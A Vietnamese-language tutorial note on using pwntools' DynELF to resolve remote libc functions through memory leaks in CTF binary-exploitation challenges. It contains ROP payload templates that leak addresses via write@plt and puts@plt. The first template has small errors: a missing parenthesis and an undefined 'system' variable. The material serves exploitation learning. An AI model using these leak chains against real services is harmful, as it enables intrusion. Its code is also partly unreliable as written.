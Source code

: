 # DynELF pwntools

> DynELF Module pwntools - Resolving remote functions using leaks.

- [Link-DynELF_pwntools](https://docs.pwntools.com/en/stable/dynelf.html) .

- Trong thực tế một số challenge không cung cấp libc.so nhưng vẫn có các hàm output có thể được sử dụng để leak giá trị (khác với ret2dlresolve là không có hàm output).
- Khi đó khớp trực tiếp libc.so từ module - hàm DynELF trong pwntools.
- Điều kiện yêu cầu là địa chỉ thực trong LIBC và các hàm output: `write, puts, printf, ...`

### `[A] VD:` Khi hàm output của chương trình được cung cấp là hàm write, chúng ta có thể sử dụng hàm write để xuất địa chỉ thực của hàm write. Mẫu viết DynELF(64-bits) của chức năng write được cung cấp:
```python
def leak(address):
    payload = padding
    payload += p64(pop_rdi_ret) + p64(1)
    payload += p64(pop_rsi_ret) + p64(address)
    payload += p64(pop_rdx_ret) + p64(8)
    payload += p64(write_plt)
    payload += p64(ret_address)
    p.send(payload)
    data = p.recv(8)
    return data

d=DynELF(leak, elf=ELF("./program")
system_address=d.lookup("system", "libc")
log.info("system LIBC address: " + hex(system))
```

- `[B] VD:` Khi là hàm puts, đầu ra của hàm puts khó kiểm soát hơn nhiều so với đầu ra của chức năng write vì chúng ta có thể kiểm soát đầu ra của hàm write bao nhiêu byte  còn đầu ra của hàm puts là cho đến khi gặp ký tự NULL
=> khó khăn hơn cho việc leak vì ta vẫn chỉ cần 4 byte đầu khi leak. Khi sử dụng puts sẽ xuất hiện hai tình huống:                                                                                                                                                                                          
    * `1.` Không còn dữ liệu nào của chương trình được in ra sau khi dùng pus để leak.
    * `2.` Có dữ liệu của chương trình được in ra sau khi sử dụng puts để leak. VD: "<value use puts => leak>Helloworld!!!"
- Mẫu chương trình, với trường hợp hai chỉ cần thay `c=b""` = `c=b"H"`.

```python
def leak(address):
	count = 0
	data = b""
	payload = b"A" * 64 + b"B" * 8
	payload += p64(pop_rdi) + p64(address)
	payload += p64(puts_plt)
	payload += p64(start_addr)
	payload = payload.ljust(200, b"B")
	p.send(payload)
	print(p.recvuntil(b"bye~\n"))
	up = b""
	while True:
		c = p.recv(numb=1, timeout=0.5)
		count += 1
		if up == b'\n' and c == b"":
			data = data[:-1]
			data += b"\x00"
			break
		else:
			data += c
		up = c
	data = data[:4]
	log.info("%#x => %s" % (address, (data or b'')))
	return data
```

- References:
    * https://blog.csdn.net/qq_43986365/article/details/100182414

    * https://www.anquanke.com/post/id/85129

    * Challenge pwn-100, pwn-200 của XCTF.


